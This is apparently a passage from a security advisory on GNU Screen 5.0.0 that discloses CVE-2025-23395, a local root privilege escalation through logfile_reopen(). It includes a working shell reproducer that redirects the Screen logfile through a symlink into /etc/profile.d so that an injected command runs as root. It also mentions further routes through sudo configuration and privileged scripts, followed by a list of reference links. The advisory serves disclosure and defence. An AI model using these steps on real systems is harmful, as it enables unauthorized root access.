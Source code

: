3) Security Issues
==================

3.a) Local Root Exploit via `logfile_reopen()` (CVE-2025-23395)
---------------------------------------------------------------

This issue affects Screen 5.0.0 when it runs with setuid-root privileges. The
function [`logfile_reopen()`][git:logfile-reopen] does not drop privileges
while operating on a user supplied path. This allows unprivileged users to
create files in arbitrary locations with `root` ownership, the invoking user's
(real) group ownership and file mode 0644. All data written to the Screen PTY
will be logged into this file. Also already existing files can be abused for
logging in this manner: the data will be appended to the file in question, but
the file mode and ownership will be left unchanged.

Screen correctly drops privileges when it initially opens the logfile. The
privilege escalation becomes possible as soon as Screen believes it is
necessary to reopen the logfile. Screen checks this by calling
[`stolen_logfile()`][git:stolen-logfile] before writing to the file. The call
to `logfile_reopen()` happens when the link count of the originally opened
logfile drops to zero, or if it unexpectedly changes in size. This condition
can be triggered at will on the end of the unprivileged user.

This is a reproducer which shows how to achieve a basic local root exploit on
an affected system:

```sh
# create a Screen session using a custom logfile path
(shell1) user$ screen -Logfile $HOME/screen.log
# enter the key combination to enable logging to the configured path
(screen) user$ <ctrl-a> H

# in another shell remove the logfile that Screen just created and
# replace it by a symlink to a privileged location
(shell2) user$ rm $HOME/screen.log; ln -s /etc/profile.d/exploit.sh \
    $HOME/screen.log

# back in the Screen session, echo an exploit command which will be logged to
# the now redirected logfile.
#
# This needs to be done via `echo` for adding a leading newline to prevent the
# bash prompt from breaking the exploit. Similarly the trailing semicolon
# is necessary to prevent following control characters from becoming part of
# the shell command.
(screen) user$ echo -e "\nchown $USER /root;"

# now perform a new login as root and watch the exploit being executed.
# you will likely see a range of shell errors during login as well.
root# ls -lhd /root
drwxr-x--- 5 user root 4.0K Dec 30  2020 .
```

This is just one naive approach to achieve a local root exploit, which is not
very well hidden (because of strange error messages) and requires the actual
`root` user to login to trigger it. There are likely many other ways to
exploit this, however, for example by writing new configuration files for
tools like `sudo`, or by appending code to privileged shell scripts found in
/usr/bin and similar locations.


[^netbsd-info]: Installation of Screen on NetBSD is possible using the [pkgsrc][pkgsrc] package manager, which
[upstream:savannah]: https://savannah.gnu.org/projects/screen
[upstream:users-mailing-list-crash]: https://lists.gnu.org/archive/html/screen-users/2024-12/msg00000.html
[upstream:release-announcement]: https://lists.gnu.org/archive/html/screen-users/2025-05/msg00005.html
[upstream:screen-download]: https://ftp.gnu.org/gnu/screen
[bugzilla:screen-audit]: https://bugzilla.suse.com/show_bug.cgi?id=1227243
[bugzilla:savannah-links]: https://bugzilla.suse.com/show_bug.cgi?id=1227243#c8
[bugzilla:pty-chmod-patch-concern]: https://bugzilla.suse.com/show_bug.cgi?id=1242269#c9
[bugzilla:pty-reattach-broken]: https://bugzilla.suse.com/show_bug.cgi?id=1242269#c12
[git:logfile-reopen-refactoring]: https://git.savannah.gnu.org/cgit/screen.git/commit/?id=441bca708bd197ae15d031ccfd2b42077eeebedc
[git:configure-rewrite]: https://git.savannah.gnu.org/cgit/screen.git/commit/?id=df1c012227
[git:pty-mode-switch-reintroduction]: https://git.savannah.gnu.org/cgit/screen.git/commit/?id=78a961188f7
[git:strncpy-refactoring]: https://git.savannah.gnu.org/cgit/screen.git/commit/?id=0dc67256
[git:release-tag-5-0-0]: https://git.savannah.gnu.org/cgit/screen.git/tag/?h=v.5.0.0
[git:release-tag-5-0-1]: https://git.savannah.gnu.org/cgit/screen.git/tag/?h=v.5.0.1
[git:attach-chmod]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/attacher.c?h=v.5.0.0#n120 
[git:attach-mode-restore]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/attacher.c?h=v.5.0.0#n284
[git:attach-missing-restore]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/attacher.c?h=v.5.0.0#n160
[git:logfile-reopen]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/logfile.c?h=v.5.0.0#n81
[git:stolen-logfile]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/logfile.c?h=v.5.0.0#n101
[git:default-pty-mode-4-9-1]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/process.c?h=v.4.9.1#n207
[git:configure-pty-mode-4-9-1]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/configure.ac?h=v.4.9.1#n811
[git:acconfig-pty-mode-comment-4-9-1]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/acconfig.h?h=v.4.9.1#n81
[git:panic-tty-mode-restore]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/screen.c?h=v.5.0.0#n1554
[git:socket-error-messages]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/screen.c?h=v.5.0.0#n849
[git:socket-kill-pid-1]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/socket.c?h=v.5.0.0#n646
[git:socket-kill-pid-2]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/socket.c?h=v.5.0.0#n882
[git:check-pid]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/socket.c?h=v.5.0.0#n555
[git:struct-message-command]: https://git.savannah.gnu.org/cgit/screen.git/tree/src/screen.h?h=v.5.0.0#n148
[git:socket-kill-insufficient-fix]: https://git.savannah.gnu.org/cgit/screen.git/patch/?id=e9ad41bfedb4537a6f0de20f00b27c7739f168f7
[git:branch:screen-v4]: https://git.savannah.gnu.org/cgit/screen.git/log/?h=screen-v4
[git:branch:screen-v5]: https://git.savannah.gnu.org/cgit/screen.git/log/?h=screen-v5
[git:screen-v4:signal-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v4&id=161f85b98b7e1d5e4893aeed20f4cdb5e3dfaaa4
[git:screen-v4:file-existence-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v4&id=e0eef5aac453fa98a2664416a56c50ad1d00cb30
[git:screen-v4:pty-mode-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v4&id=049b26b22e197ba3be9c46e5c193032e01a4724a
[git:screen-v5:strncpy-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=2bdebfc9837cfd3cea0645030e626b08bb6bc2d0
[git:screen-v5:logfile-reopen-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=e894caeffccdb62f9c644989a936dc7ec83cc747
[git:screen-v5:pty-mode-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=d10eb5b2f7eebaa347f09c010bd391373fdd1695
[git:screen-v5:default-pty-mode-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=d5d7bf43f3842e8b62d5f34eb4b031de7c8098c1
[git:screen-v5:file-existence-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=710cda5c71cacfed201b5659e04a83815313d8e6
[git:screen-v5:signal-fix]: https://git.savannah.gnu.org/cgit/screen.git/commit/?h=screen-v5&id=a17b0da26494856640bd9d52a03fc1b575400170
[opensuse:disclosure-policy]: https://en.opensuse.org/openSUSE:Security_disclosure_policy
[distros-mailing-list]: https://oss-security.openwall.org/wiki/mailing-lists/distros
[screen-man-page]: https://linux.die.net/man/1/screen
[pkgsrc]: https://pkgsrc.org
[arch:drop-setuid-req]: https://gitlab.archlinux.org/archlinux/packaging/packages/screen/-/merge_requests/2
[arch:drop-setuid-commit]: https://gitlab.archlinux.org/archlinux/packaging/packages/screen/-/commit/0de034ecc5620805b0af0f95eafa3226bfa42478